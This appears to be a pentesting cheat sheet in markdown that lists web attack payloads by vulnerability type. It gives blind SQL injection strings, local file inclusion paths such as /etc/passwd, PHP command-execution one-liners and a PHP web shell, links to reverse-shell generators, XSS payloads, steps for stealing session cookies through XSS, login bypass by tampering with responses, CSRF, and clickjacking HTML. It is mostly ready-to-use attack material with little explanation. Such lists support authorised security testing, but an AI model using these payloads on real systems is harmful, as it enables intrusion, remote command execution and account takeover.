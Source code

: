 ## Time Based Blind SQL Injection:
```
'(select * from (select(sleep(10)))a)
,(select*from(select(sleep(15)))a)
';WAITFOR DELAY '0:0:30'--
```
## Boolean Based Blind SQL Injection:
```
'2 OR 1=1
'2 AND 1=1
```
## Local File Inclusion (LFI):
```
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>
/etc/passwd
/etc/hosts
/../../etc/passwd
```
## Remote Code Execution (RCE):
```
<?php system("cat /etc/passwd");?>
<?php system("id");?>
<?php echo phpinfo(); ?>
```
## Malicious File Upload (Shell Execution):
```
<?php system($_GET['cmd']); ?>

https://github.com/hackerhijeck/For_Me/blob/main/Web_Shell.php
```
## Application is Vulnerable to Reverse Web shell (Shell Execution):
```
https://www.revshells.com
```
## File Upload Bypass:
```
https://book.hacktricks.xyz/pentesting-web/file-upload
```
## Session Hijacking:
```
Step1: Using xss hunter payload, execute the payload in logged in user account.
Step2: After got the cookies in the XSS Hunter.
Step3: Copy the cookies and before login paste and change into the cookies and refresh it.
```
## Session Fixation in The Application:
```
Step1: Before login, Check the cookie or session token.
Step2: Then After login, Check the cookie or session token, If same token or cookies is there.
```
## URL Redirection in the application:
##### Endpoint Pattern:
```
/?url=
/?redirect_url:
/?checkout_url=
/?login_url=
/?redirect_uri=
```
## Reflected Cross Site Scripting Attack:
```
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
javascript:alert(1)//
"onmouseover=alert(1);
<x onclick=alert(1)>click!
```
## HTML Injection
```
<h1>HTML_Injection</h1>
<marquee>HTML_Injection</marquee>
```
## Link Injection:
```
<a href="https://www.intelliroot.com">ClickMe</a>
```
## Iframe Injection:
```
<iframe src="https://www.intelliroot.com"></iframe>
```
## Blind Cross Site Scripting Attack:
```
XSS Hunter payload
```
## Admin/User Login Authentication Bypass Using Success Response:
#### Process 1:
```
Step1: Login panel capture the request and Do intercept and click to respnse to this request and then forward the request
Step2: If Response code 404 Forbidon then change to 200 OK. and then forward the request.
```
#### Process 2:
```
Step1: In login panel first logged in a valid user and capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step2: Copy the 200 OK reponse data and save it any txt format.
Step3: Now try to unathorized user, in login panel capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step4: In Response data, paste the data which copied from a valid user, and then forward the request.
```
## Cross Site Request Forgery (CSRF):
```
Step1: Capture any POST data and click generate CSRF poc, save it into the html file.
Step2: Change the POST data to anything you want.
Step3: Now open into the browser and click submit.
```
### Account Takeover through forget password:
```
https://infosecwriteups.com/all-about-password-reset-vulnerabilities-3bba86ffedc7
```
### No Session Termination After Password Change:
```
Step1: Login as a user, After logged in capture a request of any functionality and get into the Repeater and send to Response.
Step2: Wait minimum 40,50 minutes, Do not loggout the account.
Step3: After complete the time, then again click send to the reponse in the Burpsuite.
Step4: If its working properly, then it No Session Termination Vulnerability.
```
### Concurrent Logins with the Same Username in admin/user account:
```
Step1: Same time, try to login same user in two different computer.
```
### Trace method Enabled:
```
Step1: $ curl -X TRACE -H "X-Header: geeknik/pentest" https://url.com
Step2: $ curl -X TRACE -H "Via: <svg/onload=alert('XSS')>" https://url.com

https://hackerone.com/reports/222692
```
### Full path disclosure:
```
/?file=
/?page=

<?php
   echo file_get_contents(getcwd().$_GET['page']);
?>
```
### Improper Input Validation in the Application:
```
<script>alert(1)</script>
<h1>Test</h1>
```
### Application is Vulnerable to Clickjacking Attacks:
```
<!DOCTYPE html>
<html>
<head>
<title>This is Clickjacking Test Page!</title>
</head>
<body>
<iframe src="https://url.com" width="500" height="500"></iframe>
</body>
</html>
```
